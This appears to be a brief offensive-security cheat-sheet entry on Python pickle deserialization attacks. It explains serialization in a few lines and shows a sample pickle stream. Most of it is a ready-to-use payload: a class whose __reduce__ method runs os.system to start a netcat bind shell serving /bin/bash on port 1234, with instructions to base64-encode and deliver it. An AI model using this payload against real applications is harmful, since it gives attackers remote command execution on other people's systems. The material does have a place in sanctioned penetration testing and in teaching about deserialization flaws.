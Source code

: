 ## Theory

Used by application to make their storage easier. If an application needs to store and instance of a class, it can use serialization to get a string representation of this object. When the application needs to use the instance, it will unserialise the string to get it.

## Pickle (python)

After decoding, if you have sthing like this, you are dealing with serialisation : 

```
(i__main__
Hack
(dp1
S'test1'
p2
S'test'
p3
sS'test2'
p4
S'retest'
p5
sb.
```

Encode your payload :

```
class Test(object):
  def __reduce__(self):
    return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
	
serial = Test()
print pickle.dumps(serial)
```

Use python2 or python3 
Encode it with base64 if needed and use it.

